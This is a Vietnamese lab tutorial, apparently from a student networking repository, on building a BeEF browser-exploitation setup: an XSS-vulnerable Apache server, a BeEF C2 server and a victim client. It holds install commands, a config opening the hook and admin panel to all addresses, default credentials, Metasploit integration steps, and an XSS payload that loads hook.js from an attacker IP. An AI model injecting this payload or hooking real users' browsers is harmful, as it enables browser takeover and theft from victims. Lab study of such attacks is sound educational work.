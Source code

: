 BeEF Framework
Server A: bị ảnh hưởng bởi lỗ hổng Cross-site scripting (XSS) (sử dụng Apache và chạy trên EC2 AWS)
Server B: Sử dụng BeEF Framework đóng vai trò như một máy chủ khai thác (xây dựng trên GCP Cloud).
Client C: Đóng vai trò như một người dùng thông thường, truy cập vào Server A.
Xây dựng môi trường
Cài đặt Apache2
sudo apt-get update;sudo apt-get upgrade
sudo apt-get install -y apache2
<script>alert('Test Script')</script>
Cài đặt BeEF Framework (Server B)
Cài đặt Ruby
sudo apt-get install software-properties-common
sudo apt-get update
sudo apt-add-repository -y ppa:brightbox/ruby-ng
Cài đặt RVM
sudo apt-add-repository -y ppa:rael-gc/rvm
sudo apt-get update;sudo apt-get install rvm
rvm install "ruby-2.5.3"
echo 'source "/etc/profile.d/rvm.sh"' >> ~/.bashrc
 sudo add-apt-repository ppa:jonathonf/gcc-9.0
 sudo apt-get update
 sudo apt-get install gcc-9
 sudo apt-get install git curl wget -y
Download and running BeEF Framework
git clone https://github.com/beefproject/beef
cd beef
./install 
./beef 
 # Credentials to authenticate in BeEF.
    # Used by both the RESTful API and the Admin interface
    credentials:
        user:   "admin"
        passwd: "admin@123"
    # Interface / IP restrictions
    restrictions:
        # subnet of IP addresses that can hook to the framework
        permitted_hooking_subnet: ["0.0.0.0/0", "::/0"]
        # subnet of IP addresses that can connect to the admin UI
        #permitted_ui_subnet: ["127.0.0.1/32", "::1/128"]
        permitted_ui_subnet: ["0.0.0.0/0", "::/0"]
        # slow API calls to 1 every  api_attempt_delay  seconds
        api_attempt_delay: "0.05"
    # HTTP server
    http:
        debug: false #Thin::Logging.debug, very verbose. Prints also full exception stack trace.
        host: "0.0.0.0"
        port: "8080"
3. Proof of concept
Tạo mã độc hại bằng BeEF Framework.
BeEF Framework mặc được trang bị một đoạn mã Javascript vô cùng "xịn xò" mang tên hook.js .Bạn có thể tìm thấy nó tại http://you-ip/hook.js
Bước 2. Nhúng mã hook.js vào Server A
Payload: <script src=”http://your-ip/hook.js” type=”text/javascript”></script>
----------------------------------------
C2:
Cài đặt và cấu hình Browser Exploitation Framework
apt-get install beef-xss
1 ) Edit the main configuration file located at /usr/share/beef-xss/
config.yamlto read:
metasploit:
enable:true2.
2) Edit the file located at /usr/share/beef-xss/extensions/metasploit/
config.yml. You need to edit the lines host, callback_host, and os
'custom', pathto include your IP address and the location for the
Metasploit Framework A correctly edited config.ymlfile is shown in the following screenshot:
3) Start msfconsole, and load the msgrpcmodule, as shown in the following
screenshot. Make sure that you include the password as well:
4 ) Start BeEF using the following commands:
root@kali:~# cd /usr/share/beef-xss/
root@kali:/usr/share/beef-xss/~# ./beef
đi đến http://:3000/ui/panel
default login: User: beef, Password: beef
thay đổi cấu user và passwrod mặc định thì xem trong file config.yaml
-------------------------------------------------------------
C3:
Khởi động BeEF:
Cũng như các công cụ khác được giới thiệu trong series này, nó được tích hợp sẵn trên Kali Linux. Bạn có thể mở từ Menu, Application hay Terminal đều được.
Khởi động BeEF.
BeEF sẽ mở các service cần thiết và biến máy Kali thì một máy chủ web để chạy BeEF, vì nó được xây dựng theo dạng web application mà. Trên chính máy tính Kali của bạn, bạn có thể vào địa chỉ sau để vào bảng điều khiển BeEF Panel:
http://127.0.0.1:3000/ui/panel 
còn đối với một máy tính khác thì vào địa chỉ dạng:
http://<IP>:3000/ui/panel
Một cửa sổ yêu cầu đăng nhập, bạn đăng nhập bằng tên đăng nhập và mật khẩu mặc định là beef. Và bạn cũng có thể thay đổi trong file cấu hình /usr/share/beef-xss/config.yamlto.
Trang web Demo 1: http://<IP>:3000/demos/basic.html
Trang web Demo 2: http://<IP>:3000/demos/butcher/index.html


![305958612_831526307876618_9131065325802753900_n](https://github.com/NguyenNhutY/Computer_Networks/assets/130396826/3c1e29c4-1d23-4989-b37e-4fc6c0b71e46)
![306964053_831526154543300_3530839628808834855_n](https://github.com/NguyenNhutY/Computer_Networks/assets/130396826/8b5eb807-af77-4f88-9a56-2d3f1fa5af74)
![307382154_831526041209978_4068041025520495048_n](https://github.com/NguyenNhutY/Computer_Networks/assets/130396826/3ffcfc41-bbce-42f5-8cd6-81773cbf3588)
![306938180_831523944543521_2721496235238299375_n](https://github.com/NguyenNhutY/Computer_Networks/assets/130396826/541a186a-ce99-4cf1-9573-9e4099b58456)
![307317988_831523774543538_2085703357776021444_n](https://github.com/NguyenNhutY/Computer_Networks/assets/130396826/bef4bd12-b051-49e7-b825-cc3c72a0d4ff)
![306658765_831526441209938_6785713292026902660_n](https://github.com/NguyenNhutY/Computer_Networks/assets/130396826/c28853da-733b-41a9-bb9b-0f8ed5d61491)
